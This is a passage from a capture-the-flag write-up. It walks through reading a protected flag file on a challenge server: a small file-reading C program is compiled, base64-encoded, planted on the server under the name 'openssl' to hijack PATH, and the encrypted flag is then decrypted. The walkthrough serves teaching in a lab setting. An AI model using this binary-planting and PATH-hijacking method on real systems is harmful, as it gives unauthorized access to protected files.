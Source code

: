 ```C
    // Open file 
    fptr = fopen(filename, "r"); 
    if (fptr == NULL) 
    { 
        printf("Cannot open file \n"); 
        exit(0); 
    } 
  
    // Read contents from file 
    c = fgetc(fptr); 
    while (c != EOF) 
    { 
        printf ("%c", c); 
        c = fgetc(fptr); 
    } 
  
    fclose(fptr); 
    return 0; 
}
```

Compile that with `gcc -static program.c` (static to also include libraries) and we get the executable `a.out`.

Encode that with `base64 a.out` and we get *a lot* of text. Let's copy that to our clipboard.

We can copy that into the server with `echo '<clipboard content>' > /home/ctf/encoded`. This can then be decoded and made executable with
```bash
base64 -d /home/ctf/encoded > /home/ctf/openssl
chmod +x /home/ctf/openssl
```

If we didn't exit the server in the meantime, the `PATH` variable should still be set; otherwise we can set it again.
And indeed, if we now run the `cli` we can retrieve the file content of `flag.enc`:
```bash
./cli
Guess when I was encrypted ([YYYY]-[MM]-[DD]T[HH]:[MM]:[SS]+[HH]:[MM]): 

Enter the filename to open 
/app/flag.enc
<secret encrypted flag>
The guessed date is correct!
```

### Final steps

We can store this secret flag on our local machine (e.g. in `flag.enc` again) and decrypt it:
```bash
openssl enc -d -aes-256-cbc -k 2024-05-29T01:31:06+00:00 -pbkdf2 -base64 -in flag.enc -out flag
cat flag
GPNCTF{<secret flag content>}
```

**We made it!**

